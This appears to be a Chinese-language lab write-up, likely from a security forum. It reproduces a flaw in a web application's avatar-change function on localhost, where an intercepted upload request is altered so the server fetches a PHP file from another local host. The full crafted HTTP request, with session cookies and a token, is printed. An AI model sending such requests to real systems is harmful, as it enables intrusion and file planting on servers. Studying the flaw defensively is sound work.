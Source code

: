 访问 <http://localhost:38201/register> 任意注册账号。

![document_image_rId8.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-99a3e089816ea6589bc8b429b2cbbf3fba743485.png)

访问 <http://localhost:38201/login> 进行登录，登录成功后找到修改头像功能点。  
[http://localhost:38201/member\_profile/avatar](http://localhost:38201/member_profile/avatar)

![document_image_rId9.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-53f0c23d3ede721caae96ff8b972814b4eb4ac66.png)

任意上传一张图片并进行抓包修改。  
原始数据包：

![document_image_rId10.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-f93ab18bb5dae88f586a47ddf05d34f2d6ad5075.png)

修改后：

![document_image_rId11.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-3785d3d9c2452b5c7842883f30fea1099a849075.png)

数据包：

```php
POST /member_profile/avatar HTTP/1.1
Host: localhost:38201
Content-Length: 44
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:38201
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:38201/member_profile/avatar
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=b9b3b6655310f81aa0329bfd23522581; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDgyODg4MCwibmJmIjoxNjk0ODI4ODgwLCJleHAiOjE2OTc0MjA4ODAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.y5r2KvC8qH8eOhSYzK07JKHvRFcUDbFgCpdFuJTa1m4; expires_time=1697420880; ssid=eyJpdiI6ImZSdFV1aHNPR2JqdkhEZEpWN1IwUHc9PSIsInZhbHVlIjoiNG04VmdheFVoNFl0VDhUWkNScjY2YnRPY0pvRWZnYlJoU0dyb3ZxVlZHRVwvRnl6S2FtYUJmSVpUaDJZXC95OCsrU1hURjVZMzlKalphTjBMS2kyZG5CQT09IiwibWFjIjoiYTYyMWI3MTE2NTBmODY0ZmFhMmVjMDg0OWVhMWQxODQzNTVlYWM3NTgzNDhmOTM2NjEyMTU0M2NjNjM2NDg2YyJ9
Connection: close

type=&avatar=http://127.0.0.1:19980/help.PHP
```

生成的文件名是md5值，摘取内容为：

```php
yMZzWpFRGBGwrBVwDiNQF0U9xl7Baqa8:http://127.0.0.1:19980/help.PHP
```
